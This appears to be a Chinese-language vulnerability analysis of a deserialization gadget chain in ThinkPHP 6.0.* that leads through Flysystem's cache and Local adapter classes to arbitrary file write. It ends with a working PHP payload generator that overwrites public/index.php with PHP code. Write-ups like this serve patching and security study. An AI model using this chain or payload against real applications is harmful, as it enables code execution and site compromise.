








## 漏洞影响
- **受影响版本**：ThinkPHP  6.0.*

## 漏洞分析
ThinkPHP 6.0 存在一个通过反序列化触发的任意文件写入漏洞。该漏洞源于 `League\Flysystem` 库中的 `Cached\Storage\AbstractCache` 类及其子类 `Adapter`，在反序列化过程中调用 `__destruct()` 方法，导致 `save()` 函数执行文件写入操作。

## 漏洞复现

1. 应用层模拟反序列化逻辑，参数用户可控。



2. 全局搜索 `__destruct` 魔术方法，在 `Cached\Storage\AbstractCache` 类中有实现，如果 `$this->autosave` 为假值则调用 `$this->save()` 。



3. `Cached\Storage\AbstractCache` 是一个抽象类，其 `save` 方法由接口定义但未在抽象类中实现。全局搜索  `save` 方法的子类，发现 `Adapter` 子类中对 `save` 方法进行了具体实现。通过命名可推断 `$this->file` 是文件路径，`if ($this->adapter->has($this->file))` 检测该文件路径是否已存在，如果存在则调用 `$this->adapter->update($this->file, $contents, $config)` 修改文件，如果不存在则调用 `$this->adapter->write($this->file, $contents, $config)` 写入文件。文件内容由 `$contents = $this->getForStorage()` 获取， `$this->cache` 、`$this->complete` 、`$this->expire` 等属性都可以操控 `getForStorage()` 方法的返回值，即写入内容。





4. 全局搜索实现了 `write` 方法并且参数匹配的类，可发现 `Local` 适配器符合要求，方法体内部经过 `$location = $this->applyPathPrefix($path)` 、`$this->ensureDirectory(dirname($location))` 处理路径后调用 `$size = file_put_contents($location, $contents, $this->writeFlags)` 写入文件。



5. 查看 `$this->applyPathPrefix($path)` 方法实现，可以看到该方法进行路径拼接，而拼接的前缀可由 `$this->pathPrefix` 属性控制。



6. 查看 `$this->ensureDirectory(dirname($location))` 实现，`dirname($location)` 获取路径的目录部分，该方法使用 `!is_dir($root)` 检测目录是否存在，如果不存在会创建目录。



7. 漏洞验证成功。



payload：

```php
<?php

namespace League\Flysystem\Adapter;
abstract class AbstractAdapter {
    protected $pathPrefix;
    function __construct()
    {
        $this->pathPrefix = './';
    }
}
class Local extends AbstractAdapter {

}


namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache {
    protected $autosave = true;
    protected $complete = [];
    protected $cache = [];

    public function __construct() {
        $this->autosave = false;
        $this->complete = [];
        $this->cache = ["path" => "<?php phpinfo();?>"];
    }

}

class Adapter extends AbstractCache {

    protected $file;
    protected $adapter;
    protected $expire = null;

    public function __construct()
    {
        parent::__construct();
        $this->file = "public/index.php";
        $this->expire = 0;
        $this->adapter = new Local();
    }
}

echo urlencode(base64_encode(serialize(new Adapter())));
```